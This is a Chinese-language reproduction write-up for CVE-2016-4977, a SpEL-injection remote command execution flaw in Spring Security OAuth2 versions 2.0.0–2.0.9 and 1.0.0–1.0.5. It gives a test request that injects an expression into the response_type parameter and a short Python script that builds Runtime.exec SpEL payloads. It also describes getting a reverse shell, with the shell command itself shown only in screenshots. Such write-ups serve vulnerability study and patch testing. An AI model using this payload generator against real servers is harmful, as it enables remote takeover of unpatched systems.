 # （CVE-2016-4977）Spring Security OAuth2 远程命令执行漏洞

## 一、漏洞简介

Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块。在其使用 whitelabel views 来处理错误时，由于使用了Springs Expression Language (SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

## 二、漏洞影响

* Spring Security OAuth 2.0.0版本至2.0.9版本
* Spring Security OAuth 1.0.0版本至1.0.5版本中

## 三、复现过程

访问`http://www.badu.com:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`。首先需要填写用户名和密码，我们这里填入`admin:admin`即可。

可见，我们输入是SpEL表达式`${233*233}`已经成功执行并返回结果：

![1.png](images/2020_06_13/f789dd0a04ce446cb8edd6527890977b.png)

然后，我们使用poc.py来生成反弹shell的POC

（注意：[Java反弹shell的限制与绕过方式要在这个网站进行转码]

```
http://www.jackson-t.ca/runtime-exec-payloads.html

```

```
CVE-2016-4977.py

```

```python
#!/usr/bin/env python
message = input('Enter message to encode:')
poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])
for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 
poc += ')}'
print(poc)

```

![2.png](images/2020_06_13/10c9412e2b564e8087f54cfac7febb2b.png)

如上图，生成了一大串SpEL语句。附带上这个SpEL语句，访问成功弹回shell：

![3.png](images/2020_06_13/00490ed728fa40bfb84b3e9990c1a572.png)

